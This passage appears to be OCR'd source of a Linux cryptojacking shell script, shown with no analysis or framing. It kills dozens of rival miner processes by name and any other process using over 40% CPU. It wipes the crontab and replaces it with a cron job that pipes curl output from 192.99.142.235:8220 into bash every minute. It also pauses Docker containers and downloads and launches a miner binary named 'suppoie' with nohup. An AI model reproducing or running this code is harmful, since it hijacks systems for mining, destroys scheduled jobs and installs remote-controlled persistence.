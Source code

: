 		pkill  ./gekobalanq1
		pkill  ./gekobnc1
		pkill  ./ir29xc1
		pkill  ./irpbalanc1
		pkill  ./jIuc2ggfCAvYmluL2Jhc2gi
		pkill  ./jaav
		pkill  ./jva
		pkill  ./kw.sh
		pkill  ./kworker34
		pkill  ./kxjd
		pkill  ./lexarbalanc1
		pkill  ./lower.sh
		pkill  ./lowerv2.sh
		pkill  ./lowerv3.sh
		pkill  ./minerd
		pkill  ./minergate
		pkill  ./minergate-cli
		pkill  ./minexmr
		pkill  ./mixnerdx
		pkill  ./mule
		pkill  ./mutex
		pkill  ./myatd
		pkill  ./performedl
		pkill  ./polkitd
		pkill  ./pro.sh
		pkill  ./pubg
		pkill  ./pvv
		pkill  ./root.sh
		pkill  ./rootv2.sh
		pkill  ./rootv3.sh
		pkill  ./servcesa
		pkill  ./sleep
		pkill  ./sourplum
		pkill  ./stratum
		pkill  ./vsp
		pkill  ./watch-smart
		pkill  ./wget
		pkill  ./ysaydh
		pkill  ./acpid
		ps aux | grep -vw suppoie | awk '{if($3>40.0) print $2}' | while read procid
		do
		kill -9 $procid
		done
		rm -rf /dev/shm/jboss
		ps -fe|grep -w suppoie |grep -v grep
		if [ $? -eq 0 ]
		then
		pwd
		else
		crontab -r || true && \
		echo "* * * * * curl -s http://192.99.142.235:8220/logo3.jpg | bash -s" >> /tmp/cron || true && \
		crontab /tmp/cron || true && \
		rm -rf /tmp/cron || true && \
		docker pause `docker ps|grep kube-apis |awk '{print $1}'`
		docker pause `docker ps|grep nginx78 |awk '{print $1}'`
		curl -o /var/tmp/config.json http://192.99.142.235:8220/1.json
		curl -o /var/tmp/suppoie http://192.99.142.235:8220/rig
		chmod 777 /var/tmp/suppoie
		cd /var/tmp
		proc=`grep -c ^processor /proc/cpuinfo`
		cores=$((($proc+1)/2))
		num=$(($cores*3))
		/sbin/sysctl -w vm.nr_hugepages=`$num`
		nohup ./suppoie -c config.json -t `echo $cores` >/dev/null &